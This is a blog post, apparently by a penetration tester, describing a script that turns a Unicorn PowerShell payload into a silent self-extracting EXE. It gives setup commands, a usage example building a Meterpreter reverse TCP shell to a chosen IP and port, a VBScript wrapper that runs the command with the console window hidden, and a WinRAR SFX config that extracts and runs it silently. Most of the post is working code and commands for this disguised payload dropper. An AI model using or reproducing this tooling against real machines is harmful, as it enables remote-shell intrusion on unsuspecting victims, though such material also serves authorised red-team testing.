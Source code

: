 ```yaml
---
layout: post
title: Making a Powershell EXE Payload
summary: A script to make a powershell payload into an executable
tags:
- payloads
- powershell
commentIssueId: 5
---
```


I've been using TrustedSec's [Unicorn](https://github.com/trustedsec/unicorn) a LOT over the past few months. In fact, it's become my go-to payload to pop a box. While it's awesome to be able to paste a command and get a shell, sometimes an EXE is required.

For those cases, I've made a script to make the whole process automated: `powershell_exe.py`



### tl;dr
`powershell_exe.py` uses winrar's commandline options under wine to make a self-extracting archive. [Source](https://github.com/bluscreenofjeff/Scripts/blob/master/powershell_exe.py)


**Setup instructions**

```bash
cd /opt
git clone https://github.com/trustedsec/unicorn.git

cd ~/Desktop
wget http://www.rarlab.com/rar/wrar511.exe
wine wrar511.exe
```

Now just go through the default options of winrar to finish the install.


**Usage:**

```python
python power_exe.py <payload> <ip address> <port>
Example: python power_exe.py windows/meterpreter/reverse_tcp 192.168.1.5 443
````


**Results**

The script outputs a `powerpay.exe` file and leaves Unicorn's `powershell_attack.txt` file. 

To have the script remove the Unicorn command, uncomment line 39: `system("rm powershell_attack.txt")`



### How it works

The script runs Unicorn using the provided options for payload, IP, and port. The result is the Powershell command text in `powershell_attack.txt`.


The code from `powershell_attack.txt` is inserted into the following vbscript file to call the command without that ugly black command prompt popping up:

```bash
Dim shell,command
command = "<POWERSHELLCOMMAND>"
Set shell = CreateObject("WScript.Shell")
shell.Run command,0
```


An `xfs.config` file is written for winrar:

```bash
;The comment below contains SFX script commands

Path=%Temp%
Setup=run.vbs
Silent=1
Overwrite=1
```

You can have multiple Setup lines in that file, so if you wanted to have the payload run and then create an error or run an intel script, you could just edit the config file, add the file creation to the script, and edit the wine command below.



Winrar's command line options are plentiful, but for our purposes the syntax is as follows:

```bash
wine /root/.wine/drive_c/Program\ Files/WinRAR/Rar.exe a -r -u -sfx -z'xfs.config' powerpay run.vbs
```

What the flags mean:

  * **a** : adds to the designated archive (powerpay in this case)
  * **-r** : recurses subfolders (if applicable)
  * **-u** : updates the archive with new files and adds the new files to the archive
  * **-sfx** : makes the archive an SFX (self-extracting) archive
  * **-z** : specifies the xfs.config file. Note there is no space between the flag and path to config file
  * **powerpay** : name of the archive. This will output as powerpay.exe
  * **run.vbs** : the file being added to the archive. You can add multiple files with spaces between the paths



That's it! It should probably be said that I am **not** a programmer, so the source is definitely not written the "right" way. 

